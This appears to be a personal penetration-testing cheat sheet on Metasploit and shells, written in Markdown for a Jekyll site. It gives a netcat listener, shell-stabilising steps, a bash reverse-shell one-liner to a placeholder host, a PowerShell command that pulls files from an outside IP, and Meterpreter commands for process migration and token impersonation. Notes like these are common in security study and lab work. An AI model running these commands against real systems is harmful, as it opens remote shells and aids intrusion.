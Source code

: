 ```yaml
---
layout: single
classes: #wide
title: "Metasploit & Shells"
sidebar:
    title: "Metasploit"
    nav: infosec
collection: infopages
permalink: /infosec/metasploit/
toc: true
toc_sticky: true
author_profile: true
---
```


# Shells
reverse shell tips:  
```rlwrap nc -lnvpn``` (reverse shell with better fuctionality/arrowkeys)  

after get shell:  
```python3 -c 'import pty;pty.spawn("/bin/bash")'```
```ctrl - z```(to background the nc process)  
```stty raw -echo;fg```
```export TERM=xterm```   
* makes able to clear term
* better machine access

bash -i >& /dev/tcp/<your_ip>/<your_port> 0>&1

## Post shells
Uploading files: 
`powershell -c "curl 9.13.53.1:9999/$file -OutFile $file"`

# Commands
* `migrate <pid>`
 
# Meterpreter

## Windows
`load powershell` - loads into meterpreter  
`powershell_shell`  
`shell`  

## Modules
incognito - allows user token impersonation  
- just because have high level token doesn't mean you have perms of high level token

